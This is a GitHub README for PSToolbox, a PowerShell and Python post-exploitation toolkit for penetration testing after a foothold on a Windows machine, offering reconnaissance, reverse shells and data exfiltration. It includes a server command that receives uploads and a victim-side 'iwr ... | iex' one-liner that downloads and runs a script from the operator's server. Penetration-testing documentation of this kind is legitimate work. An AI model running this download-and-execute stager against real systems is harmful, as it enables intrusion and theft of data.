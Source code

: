 # PSToolbox

PSToolbox is a collection of utilities designed for security operations, including network reconnaissance, reverse shell establishment, data exfiltration, and system analysis. This toolkit facilitates interactions with a python web server. It makes performing various other essential tasks in penetration testing and cybersecurity assessments easier once a foothold is established on a Windows machine.
Getting Started:

These instructions will guide you through setting up and using the PSToolbox on your local machine for development and testing purposes.

Prerequisites:

    Git
    Python 3
    Access to a PowerShell environment (for the victim machine simulation)

Installation:
Begin by cloning the PSToolbox repository to your local machine:

    gh repo clone jeamajoal/PSToolbox

# Prepare the Loadables Directory:

Add any required files to the 'loadables' directory
Navigate to the cloned repository and ensure the loadables directory contains all necessary tools and scripts you intend to serve.
At this time, I have only added to the directory the tools that I have created. For the other tools referenced in the gettoolbox.ps1 file you will need to add them yourself.

# Start the Web Server

Run the provided Python web server script, postserver.py, to serve the content of the loadables directory.

    python3 python/postserver.py -b 0.0.0.0 -p 8443 -u ~/uploads
***NOTE:  The uploads dir is being set OUTSIDE of the loadables folder.  This will make your Get-TollboxItems (gti) run mor efficiently later if you so choose. Otherwise if you are ok waiting you can keep it in your loadables folder. 

# Usage

To use the toolbox from a victim machine (simulated environment), run the following PowerShell command. This command utilizes Invoke-WebRequest (alias iwr) to source the GetToolbox.ps1 script from the web server:

powershell

	iwr http://<YourServerIP>:<Port>/GetToolbox.ps1 -UseBasic | iex

You will be prompted for your ip and the web server port.


This project is licensed under the MIT License - see the LICENSE.md file for details.
Acknowledgments

